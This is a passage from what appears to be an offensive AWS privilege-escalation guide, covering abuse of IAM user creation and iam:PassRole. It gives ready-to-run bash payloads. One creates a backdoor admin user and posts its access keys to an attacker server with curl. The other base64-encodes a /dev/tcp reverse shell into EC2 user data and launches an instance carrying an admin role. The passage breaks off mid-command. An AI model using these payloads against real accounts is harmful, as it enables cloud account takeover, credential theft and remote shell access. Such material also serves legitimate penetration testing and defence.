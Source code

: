 * **Required Permissions:** iam:CreateUser, iam:CreateAccessKey, iam:AttachUserPolicy.  
* Payload Example (Create Admin User and Exfiltrate Keys):  
  This script creates a new user named aws-admin-backup, attaches the AdministratorAccess policy, and sends the new access keys to an attacker's server.  

```bash
#!/bin/bash

# Attacker server for exfiltration
ATTACKER_SERVER="http://<ATTACKER_IP>:<PORT>"
NEW_USER_NAME="aws-admin-backup"

# Create the new IAM user
aws iam create-user --user-name $NEW_USER_NAME

# Attach the AdministratorAccess policy
aws iam attach-user-policy \
    --user-name $NEW_USER_NAME \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Create access keys for the new user and exfiltrate them
aws iam create-access-key --user-name $NEW_USER_NAME | \
curl -X POST -d @- "$ATTACKER_SERVER/keys/$NEW_USER_NAME"

```

#### **Technique 2: Pass an Existing Admin Role to a New EC2 Instance**

The iam:PassRole permission is one of the most commonly misunderstood and abused permissions for privilege escalation. It doesn't allow the current role to *become* another role, but it allows the principal to **pass an existing role to another AWS service**. For example, a user with iam:PassRole can launch a new EC2 instance and tell EC2 to attach a specified role to that instance. The EC2 instance then gets all the permissions of the role that was passed to it.

This is a major security risk because default policies, such as the AmazonSageMakerFullAccess policy, have historically included a dangerously broad iam:PassRole permission on Resource: "\*". This allows the SageMaker role to pass *any* other role in the account—including administrative ones—to a new service, effectively creating a backdoor.

* **Required Permissions:** iam:PassRole, ec2:RunInstances.  
* Payload Example (Launch EC2 with Admin Role and Reverse Shell):  
  This LCC script launches a new EC2 instance, attaches an existing administrator role to it, and uses a user-data script to initiate a reverse shell back to the attacker. This gives the attacker a shell with the full privileges of the passed administrator role.  

```bash
#!/bin/bash

# The ARN of a highly privileged role the SageMaker role is allowed to pass
ADMIN_ROLE_ARN="arn:aws:iam::<ACCOUNT_ID>:instance-profile/EC2-Admin-Role"

# Attacker's IP and Port for the reverse shell
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<PORT>"

# User data script (Base64 encoded) to launch the reverse shell
USER_DATA_BASE64=$(echo "#!/bin/bash
bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1
" | base64 -w 0)

# Launch the new EC2 instance
aws ec2 run-instances \
    --image-id ami-0c55b159cbfafe1f0 \
    --instance-type t2.micro \
    --iam-instance-profile Arn=$ADMIN_ROLE_ARN \
```